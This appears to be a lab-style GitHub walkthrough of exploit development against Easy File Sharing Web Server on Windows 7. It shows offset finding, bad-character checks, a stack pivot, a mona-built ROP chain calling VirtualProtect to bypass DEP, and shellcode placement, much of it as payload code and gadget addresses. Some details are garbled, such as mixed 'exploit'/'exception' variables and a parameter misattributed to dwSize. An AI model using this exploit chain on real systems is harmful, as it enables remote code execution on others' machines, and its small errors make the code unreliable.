

# Using_ROP_Bypassing_DEP

### Setup environment
... OS Environment: Windows 7 SP1 x64 
... Vulnerable application: Easy File Sharing Web Server (https://www.exploit-db.com/exploits/38526)
... Exploit script: https://www.exploit-db.com/exploits/38526
... Debugger: Immunity Debugger with mona module installed
... Enable DEP using command *bcdedit /set nx AlwaysOn*

See details at: 
https://docs.microsoft.com/en-us/windows-hardware/drivers/devtest/bcdedit--set
https://docs.microsoft.com/zh-cn/windows/win32/memory/data-execution-prevention


### Replicating Exploit 
From exploit-db we know the executable will crash when passing around 5000 bytes in one of the cookies named UserID in a http header.

By verifying the exploit is working, pipe 5000 bytes' A to the exe,
```
exploit = "A"*5000
```
and we can see that it do crash the application and overwriting EAX register with 4 As.

The reason of crashing is the instruction below tries to acess the value at the address EAX+4C.
```
61C277F6   8178 4C 97A629A0 CMP DWORD PTR DS:[EAX+4C],A029A697
```
Also, the exploit overwriting the SEH handler.


Finding the offset of eax and seh overwriting
---
Using mona module to generate a unique payload for determining the offset.
Typing the command below, and mona will generate a txt file under the mona config workplace.
```
#Customize the location for mona output
!mona config -set workingfolder c:\logs\%p

!mona pc 5000
```
Copy this payload into our exploit and pass it to the vulnerable application. 
After crashing happened, using mona findmsp to find the offset.
```
!mona findmsp
```
Looking at the log generated by mona, we know eax will be overwrited at offset 4183 and seh will be at 4059 byte.
```
EAX contains normal pattern : 0x6a46346a (offset 4183)
SEH record (nseh field) at 0x058e6eb4 overwritten with normal pattern : 0x46336646 (offset 4059)
```
Then adapt the exploit to 
```
exception = "A"*4059
exception += "B"*4
exception += "C"*4
exception += "D"*(4183-len(exception))
exception += "A"*4
exception += "D"*(5000-len(exploit))
```
Hopefully this will overwrite the SEH handler and EAX register. 
Viewing the SEH chain in Immunity Debugger, we know that pointer to next SEH record has been overwritted by 42424242, which is 4 Bs,
and pointer to current execption handler has been overwritted to 43434343, the ASCII representation of C character. 

In other cases, setting stack to be executable, we can directly modifying the execption handler pointing to an address which holds jmp esp instruction, and put our shellcode on the stack to be executed.
However, that's not our case. Return-oriented programming chain comes to help bypassing the DEP.

Bad Characters 
---
Before moving to the ROP attack, all bad characters need to be found. 
```
!mona bytearray -cpb '\x00'
```
Copy this payload to our exploit. Find the address of our payload and compare to the file we generated under mona log folder.
```
!mona compare -f c:\logs\fsws\bytearray.bin -a 0x057A6F34
```

It shows that '\x3b' is a bad char. Generating the new payload excluding the '\x00\x3b' this time and no other found. 

ROP Chain
---

#### Stackpivoting
Let's pass the exception, we see that the stack pointer pointing to lower address, which is far from our payload stored. 
We need to find a sequence of instruction that can get ESP pointing to the space we controlled, and ideally ends with RET instructions to start our chain attack.
The offset from the stack pointer to our payload is about 9F4 in hex, 2548 bytes. 
Command below will do the job for us.
```
!mona stackpivot -distance 2548 -cpb '\x00\x3b'
```
Look at the stackpivot.txt mona generated for us, there is lots of Non-safeSEH protected pivots.
Choose any Non-safeSEH you preferred.
```
0x1002280a : {pivot 4100 / 0x1004} :  # ADD ESP,1004 # RETN    ** [ImageLoad.dll] **   |  ascii {PAGE_EXECUTE_READ}
```

Adapt our exploit payload to:
```
exception = "A"*4059
exception += "B"*4
exception += struct.pack("<I", 0x1002280a)
exception += "D"*(4183-len(exception))
exception += "A"*4
exception += "D"*(5000-len(exploit))
```
Pass the exception when crash occurred. 
And we successfully land back to the space we controlled.


Now we need to calculate the offset from the address we are landing to the start of our exploit payload. 
997 in hex equals to 2455 bytes. 
So, after stackpivoting we should start our ROP chain after 2455th byte. 
The payload should look at something like
```
exception = "A"*2455
exception += create_rop_chain()
exception += shellcode
exception += "D"*(4059-len(exception))
#Next SEH record
exception += "B"*4
#SEH handler
exception += struct.pack("<I", 0x1002280a)
exception += "D"*(4183-len(exception))

#Overwriting EAX
exception += "A"*4
exception += "D"*(5000-len(exploit))
```

#### ROP chain attack
The goal of ROP is to use the instruction to craft register value to be extract same,
when *VirtualAlloc*, *HeppCreate*, *SetProcessDEPPolicy*, *VirtualProtect*, this API got called.

ROP is comprised of Stackpivoting, ROP gadgets and the desired value which need to put into registers.
When we managed to control EIP pointing to the address of stackpivoting, the ROP chain begins.

Gadget is a sequence of instructions ended with a RET. 

The priciple under this is of abusing the RET instruction, since RET will take the address of ESP pointing to as next instruction to
execute.
Using ROP to change the register value.

The image above is a simple illustraton of ROP chain on the stack. 
ROP starts with stackpivoting which modify stack pointer pointing to the our ROP gadgets. RET instruction at stackpivoting treats the ESP 
as next instruction to be executed, and *add esp, 4*.
Now ESP pointing to the address of 0xfffffdfff, which is 2's complement of 0x00000201.
And *POP EAX* will pop this value onto the EAX. And again, RETN will *add esp, 4*.
This is the principle of using ROP to craft value of register to call windows API.

Now, let's using mona module to create rop chain for us.
```
#find the modules that don't have SafeSEH and Rebase set
#LoadImage.dll and sqlite3.dll meet the requirement.

!mona modules
!mona rop -m sqlite3.dll,ImageLoad.dll -cpb '\x00\x3b'
```

Looking at the rop_chains.txt, we notice that mona can not find any gadget to put 0x00000201 to ebx.
So we need to manually search the instructions that will do this job for us, fortunately mona generate rop_suggestions.txt and rop.txt.
As 0x0000201 contains \x00, we can not simply mov this value to ebx register. 
But we can firstly put 2's complement of 0x00000201 into register and use NEG instruction then 2's complement of that value.
For those of you doesn't know how to compute the 2's Complement Arithmetic, you can see https://github.com/Gu4rana/SLAE-Shikata_Ga_Nai_Decoding-#2s-complement-arithmetic

After searching in both text file, these two instructions may help us to put value to ebx.

After stackpivoting we know that ebx value is 0x00000000. So we can put value to other reigsters and using ADD instruction to achieve the goal.
```
0x100231d1 :  # NEG EAX # RETN    ** [ImageLoad.dll] **   |   {PAGE_EXECUTE_READ}
0x1001da09,  # ADD EBX,EAX # MOV EAX,DWORD PTR SS:[ESP+C] # INC DWORD PTR DS:[EAX] # RETN    ** [ImageLoad.dll] **   |   {PAGE_EXECUTE_READ}
```

As gadget at *0x1001da09* also increment the value at *ESP+C* by 1. So in order to not mess up our ROP chain, a little modification need 
to do. 
This gadget, ESP+C will in fact affect the fourth address after itself. 
So in order to make whole ROP works, we will add two gadgets at thrid and fourth position, one is simply jump to the next gadget and \
another is just writable location for instruction to increment.

```
      0x10015442,   # POP EAX # RETN    ** [ImageLoad.dll] **   |  ascii {PAGE_EXECUTE_READ}
      0xfffffdff,   # 2's complement of 0x00000201
      0x100231d1,   # NEG EAX # RETN    ** [ImageLoad.dll] **   |   {PAGE_EXECUTE_READ}    
      0x1001da09,  # ADD EBX,EAX # MOV EAX,DWORD PTR SS:[ESP+C] # INC DWORD PTR DS:[EAX] # RETN    ** [ImageLoad.dll] **   |   {PAGE_EXECUTE_READ}
      0x10015442,  # POP EAX # RETN [ImageLoad.dll] 
      0x61c832d0,  # ptr to &VirtualProtect() [IAT sqlite3.dll]
      0x1001281a,  # ADD ESP,4 # RETN    ** [ImageLoad.dll] **   |  ascii {PAGE_EXECUTE_READ}
      0x61c735b4,   # &Writable location [sqlite3.dll]
```
Copy the whole create_rop_chain function to our exploit.
```
exploit = "A"*2455                          #stack pivoting offset from our payload
exploit += create_rop_chain()
exploit += "\xCC\xCC\xCC\xCC"               #pause the program
exploit += "D"*(4059-len(exploit))
exploit += "BBBB"                           #overwriting the next SEH pointer(address)
exploit += struct.pack("<I", 0x1002280a)    #overwriting the SEH record with the address of stackpivoting ( mov esp, # retn), the start of the ROP chain 
exploit += "D"*(4183-len(exploit))
exploit += struct.pack("<I", 0xffffffff)    #overwriting EAX with 0xffffffff that can trigger the exception 
exploit += "D"*(5000-len(exploit))
```

#### VirtualProtect API

The VirtualProtect API takes four parameters.
See details at: 
https://docs.microsoft.com/zh-cn/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect
https://docs.microsoft.com/zh-cn/windows/win32/memory/memory-protection-constants
... lpAddress: pointer of space, which access protection need to be altered.
... dwSize: the size of the space to change.
... flNewProtect: the new attribute of protection.
... lpflOldProtect: pointer to space to receive the previous access value.

dwSize set as 0x40 indicates PAGE_EXECUTE_READWRITE.


#### Shellcode

When last gadget, PUSHAD execute the ESP at this moment will point at the next byte right after create_rop_chain() which is our shellcode
Then after running VirtualProtect(), our shellcode will be executed. 
But one strange issue occurred, the calc.exe didn't pop up. 
After disassemble our shellcode, it turns out that at the start of shellcode, it using *FXCH* and *FSTENV* to get the EIP instruction.
This may not have issues on normal circumstances, but remember we are executing instructions on the stack, and FSTENV will push 28 bytes 
on to the stack, it will overwrite our shellcode.
So adding bounch of NOP before the shellcode will solve this.
